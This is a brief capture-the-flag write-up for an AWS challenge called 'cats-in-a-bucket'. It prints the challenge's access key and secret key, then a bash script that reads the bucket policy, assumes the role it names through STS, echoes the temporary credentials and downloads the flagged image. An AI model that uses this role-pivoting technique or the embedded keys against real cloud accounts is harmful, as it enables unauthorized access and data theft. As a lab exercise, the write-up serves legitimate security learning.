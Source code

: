 # Challenge
There is a bucket full of cat images. One of them contains a flag. Go get it!

Bucket: cats-in-a-bucket

Access Key ID: AKIATZ2X44NMCEQW46PL

Secret Access Key: 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

## Solution

Don't even ask. I'm not well versed in AWS and did it googling a lot. So I'm writing this down just so I can come back copy something when I need it.

```bash
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
export AWS_ACCESS_KEY_ID=AKIATZ2X44NMCEQW46PL
export AWS_SECRET_ACCESS_KEY=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

role=$(aws s3api get-bucket-policy --bucket cats-in-a-bucket | \
       jq '.Policy' | \
       tr -d '\\' | \
       sed 's/^"//g;s/"$//g' | \
       jq -r '.Statement[] | select(.Resource == "arn:aws:s3:::cats-in-a-bucket/cat4.jpg") | .Principal.AWS')

output=$(aws sts assume-role --role-arn $role --role-session-name "MySession");
export AWS_ACCESS_KEY_ID=$(jq -r '.Credentials.AccessKeyId' <<< $output);
export AWS_SECRET_ACCESS_KEY=$(jq -r '.Credentials.SecretAccessKey' <<< $output);
export AWS_SESSION_TOKEN=$(jq -r '.Credentials.SessionToken' <<< $output); echo $AWS_SECRET_ACCESS_KEY,$AWS_SESSION_TOKEN,$AWS_ACCESS_KEY_ID;
aws sts get-caller-identity;
aws s3 cp s3://cats-in-a-bucket/cat4.jpg cat4.jpg
```

The flag was written in the image.
